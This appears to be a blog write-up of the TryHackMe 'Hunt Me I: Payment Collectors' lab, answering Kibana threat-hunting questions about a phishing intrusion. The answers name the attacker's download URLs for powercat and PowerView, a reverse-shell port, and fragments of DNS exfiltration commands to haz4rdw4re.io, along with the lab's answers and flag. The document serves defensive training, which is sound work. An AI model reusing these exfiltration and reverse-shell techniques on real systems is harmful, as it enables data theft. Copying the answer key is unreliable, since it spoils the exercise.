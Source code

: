 ```yaml
---
layout: post
title: "TryHackMe/Medium/Hunt Me I: Payment Collectors"
abbrlink: ea8f511a408b40eca0aa9dfe5af9e101
tags:
  - kibana
  - soc level 2
  - blue team
  - elasticsearch
categories:
  - Labs
  - TryHackMe
  - 2. Medium
  - "Hunt Me I: Payment Collectors"
date: 1703218309571
updated: 1703218325010
---
```


<https://tryhackme.com/room/paymentcollectors>

On **Friday**, **September 15, 2023**, Michael Ascot, a Senior Finance Director from SwiftSpend, was checking his emails in **Outlook** and came across an email appearing to be from Abotech Waste Management regarding a monthly invoice for their services. Michael actioned this email and downloaded the attachment to his workstation without thinking.

![799fa70e7c51e1526871036c16037705.png](/resources/91b5ce5c3628423580b87f79e03418c3.png)

The following week, Michael received another email from his contact at Abotech claiming they were recently hacked and to carefully review any attachments sent by their employees. However, the damage has already been done. Use the attached Elastic instance to hunt for malicious activity on Michael's workstation and within the SwiftSpend domain!

***

## Q & A

1. What was the name of the ZIP attachment that Michael downloaded?
   *Invoice\_AT\_2023-227.zip*
   > Search for `*.zip AND process.name: Outlook*` then expand the entry and check the `message` field.

2. What was the contained file that Michael extracted from the attachment?
   *Payment\_Invoice.pdf.lnk.lnk*
   > Search for `*Invoice_AT_2023-227.zip*` then expand the entry and check the `message` field.

3. What was the name of the command-line process that spawned from the extracted file attachment?
   *powershell.exe*
   > There are two ways to find this. One way is to click "View surrounding documents" on the entry that has the extracted attachement, then scroll up to find an entry with the `process.command_line` field. Another way is to Visualize the `process.command_line` field.

4. What URL did the attacker use to download a tool to establish a reverse shell connection?
   *`https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1`*
   > Expand the entry from the last question and check the `process.command_line` field

5. What port did the workstation connect to the attacker on?
   *19282*
   > Expand the entry from the last question and check the `process.command_line` field

6. What was the first native Windows binary the attacker ran for system enumeration after obtaining remote access?
   *systeminfo.exe*
   > Search for `*powershell* AND NOT *DownloadString*` then sort by oldest to new and add the `process.command_line` column.

7. What is the URL of the script that the attacker downloads to enumerate the domain?
   *`https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1`*
   > Search for `*powershell* AND *Invoke-WebRequest*` and check the `message` field.

8. What was the name of the file share that the attacker mapped to Michael's workstation?
   *SSF-FinancialRecords*
   > Search for `*share*` then add the `message` column and look for `ParameterBinding(Out-Default): name="InputObject"; value="\\FILESERVER-01.swiftspendfinancial.thm\SSF-FinancialRecords`

9. What directory did the attacker copy the contents of the file share to?
   *`C:\Users\michael.ascot\Downloads\exfiltration\`*
   > Search for `*copy*` and check the `file.path` field.

10. What was the name of the Excel file the attacker extracted from the file share?
    *ClientPortfolioSummary.xlsx*
    > Search for `*copy*` and check the `file.path` field.

11. What was the name of the archive file that the attacker created to prepare for exfiltration?
    *exfilt8me.zip*
    > Search for `*exfiltration* AND *zip* OR *rar* AND NOT *powerview*` then check the `powershell.command.invocation_details.value` field.

12. What is the MITRE ID of the technique that the attacker used to exfiltrate the data?
    *T1048*
    > Search for `*exfilt8me.zip*` then sort by date and check the latest entry's `message` field. Notice that the attacker is using `nslookup.exe` which means exfiltration via DNS, then check MITRE "Exfiltration Over Alternative Protocol".

13. What was the domain of the attacker's server that retrieved the exfiltrated data?
    *`haz4rdw4re.io`*
    > Search for `*exfilt8me.zip*` then sort by date and check the latest entry's `message` field.

14. The attacker exfiltrated an additional file from the victim's workstation. What is the flag you receive after reconstructing the file?
    *THM{1497321f4f6f059a52dfb124fb16566e}*
    > Search for `*nslookup $_.haz4rdw4re.io* AND NOT *exfilt8me.zip*` then check the `powershell.command.invocation_details.value` field where `fxfilt8me.zip` doesn't appear then copy the split base64 strings, paste them into CyberChef and clean up the input.
